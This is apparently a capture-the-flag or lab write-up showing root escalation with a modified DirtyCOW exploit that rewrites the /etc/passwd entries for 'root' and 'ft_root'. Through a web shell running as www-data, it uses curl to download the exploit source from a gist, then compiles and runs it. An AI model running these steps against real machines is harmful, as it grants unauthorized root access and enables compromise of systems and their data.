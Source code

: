 # DirtyCOW + ssh ft_root

One thing that I noticed is that `ft_root` is in `sudo` group
But it was not used at all and I decided to fix that! <br>

And one more fact about `ft_root`: it is allowed to connect via ssh, whereas `root` not!

So, I need to change `ft_root`'s password and use sudo to become `root`. <br>

`sudo` won't work if `root` user will be changed in `etc/passwd` so I need to keep `root`'s data. <br>
The most dirtycow scripts change only `root` user, so I took the one from [firefart](https://github.com/FireFart/dirtycow/blob/master/dirty.c) and modified it.

The upgraded script modifying not only `root`, but also `ft_root` (see [here](https://gist.githubusercontent.com/mhufflep/92a45e88f18e04a1e1de5c9657337dc0/raw/7fce15bc59f96144b463b642c7705339ef4f25b8/cow.c)).

This works perfectly from anywhere, but I prefer to run it using webshell `wsh.sh` that is running under www-data user.

```bash
wsh > curl -ks "https://gist.githubusercontent.com/mhufflep/92a45e88f18e04a1e1de5c9657337dc0/raw/7fce15bc59f96144b463b642c7705339ef4f25b8/cow.c" > cow.c

wsh > gcc cow.c -o dirty -lpthread -lcrypt

wsh > ./dirty 4242
```